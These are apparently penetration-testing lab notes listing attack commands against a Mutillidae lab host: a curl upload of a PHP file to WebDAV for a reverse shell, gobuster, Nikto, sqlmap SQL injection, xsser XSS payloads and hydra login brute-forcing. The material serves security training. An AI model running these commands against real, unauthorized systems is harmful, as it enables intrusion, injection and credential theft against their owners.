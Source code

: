 # Labs

## <mark style="color:red;">Lab 1 - Web and HTTP Protocol</mark>

### Practical Demonstration

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://192.168.0.141/mutillidae/ -X GET #get request reutrns entire webpage using curl.

# 1 - HEAD
curl http://192.168.0.141/mutillidae/ -I HEAD # head request.
# returns..
HTTP/1.1 200 OK
Date: Tue, 02 May 2023 20:28:07 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Logged-In-User: 
Cache-Control: public
Pragma: public
Set-Cookie: PHPSESSID=cfae124dc259270a8aada8edf17dda69; path=/
Last-Modified: Tue, 02 May 2023 20:28:07 GMT
Content-Type: text/html

# 2 - upload files
# uploading file to /dav dir with curl to obtain reverse shell.
curl http://192.168.0.141/dav/ --upload-file php_code.php -v

# 3 - OPTIONS
# viewing supported http methods for the victim with curl.
curl -X 'OPTIONS' http://192.168.0.141/dav/ -v
# returns..
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK

```
{% endcode %}



## <mark style="color:red;">Lab 2 - Directory Enumeration with Gobuster</mark>

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt`  - dir enum.

`gobuster dir --help` - help menu.

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt -x .php,.xml,.txt -r` - finding specific file extension.



## <mark style="color:red;">Lab 3 - Scanning Web Apps with Nikto</mark>

`nikto -h http://192.168.0.141` - basic scan with nikto.



## <mark style="color:red;">Lab 4 - SQL Injection with SQLMap</mark>

`sqlmap -u "http://$ip/path" --cookie "PHPSESSID=3434" -p title` -&#x20;



## <mark style="color:red;">Lab 5 - XSS Attack with XSSer</mark>

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value>` - check for vulnerability.

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<target-host=XSS> --auto` -  checks for other vuln.. you replace your vuln parameter with "XSS".

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value> --Fp "<script>alert(1)</script>"` - to run a custom script.

Then you can copy the payload it generates and use in Burp or ZAP to test your victim site.



## <mark style="color:red;">Lab 6 - Attacking HTTP Login with Hydra</mark>

`hydra -L <users.txt> -P <passwords.txt> $ip http-post-form "/login.php:login=^USER^&password=^PASS&security_level=0form=submit:<regex_Exp to not look for"` - bruteforcing http.























